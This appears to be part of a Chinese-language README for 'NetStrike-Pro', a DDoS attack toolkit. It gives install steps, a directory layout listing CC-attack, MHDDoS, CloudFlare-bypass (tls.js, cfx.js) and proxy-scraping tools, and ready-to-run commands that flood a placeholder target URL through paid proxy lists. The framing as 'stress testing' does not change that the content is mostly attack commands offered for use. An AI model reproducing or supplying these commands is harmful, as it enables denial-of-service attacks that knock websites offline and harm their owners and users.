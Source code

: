 ### 方案 B: 使用新框架（体验现代 UI）

```bash
cd NetStrike-Pro

# 安装依赖
pip3 install rich pyfiglet colorama PyYAML

# 查看版本
python3 attack.py --version

# 查看帮助
python3 attack.py --help

# 查看 UI 效果
python3 -c "from ui.intro import show_intro; show_intro('en')"
```

---

## 📁 目录结构说明

```
NetStrike-Pro/
├── attack.py              # 新框架主入口（框架阶段）
├── ui/                    # Rich UI 模块（完成）
├── config/                # 配置系统（完成）
├── core/                  # 攻击引擎（待集成）
├── legacy/                # ⭐ 原有工具完整备份
│   ├── cc.py             # ✅ Python CC 攻击
│   ├── cc/               # ✅ Node.js 工具
│   ├── mhddos/           # ✅ MHDDoS 项目
│   ├── 新建文件夹/        # ✅ tls.js, cfx.js, scrape.py
│   ├── 超高速筛选.py      # ✅ 代理筛选
│   ├── refresh_proxy.sh  # ✅ 代理刷新
│   └── [所有文档]        # ✅ 完整保留
├── README.md              # 新框架文档
├── QUICKSTART.md          # 快速开始
└── [其他框架文件]
```

---

## 🎯 推荐使用方式

### 场景 1: 立即进行压力测试 ⭐ 推荐

**使用原有工具（legacy/ 目录）**

```bash
cd NetStrike-Pro/legacy

# 第一步：刷新代理
./refresh_proxy.sh

# 第二步：选择攻击方式
# 方式 A - CloudFlare 绕过（推荐）
node 新建文件夹/tls.js https://目标.com 120 128 10 proxy_paid.txt

# 方式 B - 通用 HTTP 攻击
python3 cc.py -url https://目标.com -f proxy_paid.txt -v http -s 60

# 方式 C - MHDDoS Bypass
python3 mhddos/start.py CFB 0 https://目标.com 200 proxy_paid.txt 100 180
```